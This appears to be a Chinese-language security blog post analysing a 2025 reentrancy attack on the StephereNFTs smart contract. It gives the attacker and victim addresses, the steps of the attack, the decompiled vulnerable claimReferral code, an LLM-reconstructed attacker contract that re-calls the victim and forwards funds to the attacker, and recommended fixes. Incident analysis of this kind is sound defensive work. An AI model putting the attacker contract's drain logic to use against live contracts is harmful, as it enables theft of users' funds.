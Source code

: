 ```yaml
---
title: "StephereNFTs 遭遇重入攻击分析"
date: 2025-02-21T11:25:05
featured_image: "/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png"
tags: ["web3安全事件","合约审计"]
description: "StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金"
---
```

## 攻击概述
2025 年 2 月 ，StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金。

### 参考地址：  
https://nickfranklin.site/2025/02/21/stepheronfts-attacked/


## 相关地址
- **受害合约地址**：`0x9823e10a0bf6f64f59964be1a7f83090bf5728ab`
- **攻击者地址**：`0xFb1cc1548D039f14b02cfF9aE86757Edd2CDB8A5`
- **恶意合约1**：`0xd4c80700ca911d5d3026a595e12aa4174f4cacb3`
- **恶意合约2**：`0xb4c32404de3367ca94385ac5b952a7a84b5bdf76`
- **恶意合约3**：`0x8f327e60fb2a7928c879c135453bd2b4ed6b0fe9`
- **攻击交易 (tx)**：https://bscscan.com/tx/0xef386a69ca6a147c374258a1bf40221b0b6bd9bc449a7016dbe5240644581877

## 攻击步骤解析
### 1. 部署恶意合约

攻击者首先部署了多个恶意合约，以便后续进行重入攻击。

<center>{{< figure src="/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png" width="100%" title="图1" >}}</center>


### 2. 通过闪电贷获取初始资金
攻击者利用闪电贷借入了一笔资金，用于后续触发合约的奖励机制。

<center>{{< figure src="/images/424903484-37fadaff-fa68-43cf-b0a7-c7d5f971b4c2.png" width="100%" title="图2" >}}</center>


<center>{{< figure src="/images/424903603-00bd518d-2372-4e43-a7c6-f7b91f26245d.png" width="100%" title="图3" >}}</center>
通过购买资产获取奖励资格

### 3. 通过重入攻击不断获取受害合约资金
攻击者发现受害合约的奖励机制存在漏洞：
- 在领取奖励时，合约会检查推荐奖励的数量。
- 但由于合约先发放奖励，再将奖励计数清零，导致可以在清零前重复调用领取奖励函数，实现重入攻击。

攻击者利用这一漏洞，不断调用恶意合约，通过递归方式重复领取奖励，最终盗取了大量资金。

## 关键漏洞分析
该攻击的核心漏洞在于 **先发奖励后清零** 的逻辑顺序问题，导致了经典的重入攻击 (Reentrancy Attack)。

**漏洞代码示例**：
```solidity
function claimReferral(address varg0) public nonPayable {  find similar
    require(msg.data.length - 4 >= 32);
    require(!_paused, Error('Pausable: paused'));
    require(owner_5[msg.sender][varg0], Error('not-enough-money'));
    0x2d1e(varg0, owner_5[msg.sender][varg0], msg.sender);
    owner_5[msg.sender][varg0] = 0;
    emit 0x9c21c092f05b64df5ae0cbf557b9bf4e9695cdbeaa13fcf9a0831bce847f0cfb(msg.sender, varg0, owner_5[msg.sender][varg0]);
}
```


攻击者可以重复调用重新调用 `claimReferral`，从而在清零前多次获取奖励。

具体发送的函数
```solidity
function 0x2d1e(address varg0, uint256 varg1, address varg2) private { 
    if (varg0) {
        MEM[MEM[64] + 36] = varg2;
        MEM[MEM[64] + 68] = varg1;
        0x2c96(100 + MEM[64], 0xa9059cbb00000000000000000000000000000000000000000000000000000000, varg0);
        return ;
    } else {
        v0, /* uint256 */ v1 = varg2.call().value(varg1).gas(msg.gas);
        if (RETURNDATASIZE() != 0) {
            v2 = new bytes[](RETURNDATASIZE());
            v1 = v2.data;
            RETURNDATACOPY(v1, 0, RETURNDATASIZE());
        }
        require(v0, Error('transfer-BNB-failed'));
        return ;
    }
}
```

另外这里展示下黑客用来实现反复调用的第三部分恶意合约：
(使用LLM处理了一下)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract TokenHandler {
    address private owner;
    address private token1;
    address private token2 = 0xFb1cC1548d039f14b02cfF9ae86757edD2cdB8A5;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "invalid sender");
        _;
    }

    function func_6f2db99c() external {
        // 调用 owner 的某个函数 (e61aee51)
        //重复调用claimReferral函数
        (bool success, ) = owner.call(abi.encodeWithSignature("e61aee51()"));
        require(success);
    }

    function withdraw(address token, uint256 amount) external onlyOwner {
        // 获取 token 在调用者地址的余额
        (bool success1, bytes memory data) = token.call(
            abi.encodeWithSelector(0x70a08231, address(this))
        );
        require(success1);
        uint256 balance = abi.decode(data, (uint256));

        // 调用 withdraw (0x2e1a7d4d)
        (bool success2, ) = token.call(abi.encodeWithSelector(0x2e1a7d4d, balance));
        require(success2);

        // 调用 token 的 transfer 函数
        (bool success3, ) = token.call(
            abi.encodeWithSelector(0xa9059cbb, msg.sender, balance)
        );
        require(success3);

        // 向 msg.sender 发送 1 wei
        (bool success4, ) = msg.sender.call{value: 1}("");
        require(success4);

        // 向 token2 发送当前合约余额
        (bool success5, ) = token2.call{value: address(this).balance}("");
        require(success5);
    }

    function executeCall() internal {
        // 复杂的外部调用逻辑，可能涉及 delegatecall 或其他操作
        // 这里简化表示
        (bool success, ) = token1.call{value: address(this).balance}("");
        require(success, "call failed");

        // 调用 token1 的函数 0x50eb1dfe
        (bool success2, ) = token1.call(
            abi.encodeWithSelector(0x50eb1dfe, token2, address(this).balance)
        );
        require(success2);
    }
}
```

## 解决方案
为了防止类似的重入攻击，可以采取以下措施：
1. **使用 Checks-Effects-Interactions 模式**：
   - 先更新状态，再进行外部调用，以避免重入风险。
2. **使用 `ReentrancyGuard`**：
   - 通过 OpenZeppelin 提供的 `nonReentrant` 修饰符，防止函数的嵌套调用。
3. **避免直接调用 `call` 进行转账**：
   - 推荐使用 `transfer` 或 `send`，虽然限制了 GAS，但能降低重入攻击的风险。

